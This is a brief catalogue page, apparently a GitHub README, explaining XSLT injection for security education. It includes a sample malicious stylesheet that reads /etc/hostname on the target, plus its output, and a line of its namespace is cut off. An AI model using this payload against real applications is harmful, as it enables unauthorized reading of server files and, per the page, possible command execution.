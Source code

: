 <p align="center"> <img src="https://raw.githubusercontent.com/qeeqbox/xslt-injection/main/xslt-injection.png"></p>

A threat actor may interfere with an application's processing of extensible stylesheet language transformations (XSLT) for extensible markup language (XML) to read or modify data on the target

## Example #1
1. Threat actor submits a malicious request to a target that has a vulnerable XSLT processor
2. The target's XSLT processor parses the malicious file (Based on the processor and the version of the XSLT specification)

## Code
#### Target-in
```
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xs>
  <xsl:template match="/">
    <xsl:copy-of select=" document('/etc/hostname')"/>
  </xsl:template>
</xsl:stylesheet>
```

#### Target-Out
```
...
...
usystem01
```

## Impact
High

## Names
- XSLT Injection

## Risk
- Read & Write data
- Command Execution

## Redemption
- Secure processing

## ID
012e4a7b-b8ae-44a6-9b6f-08d24cf7dba2

## References
- [acunetix](https://www.acunetix.com/vulnerabilities/web/xslt-injection)
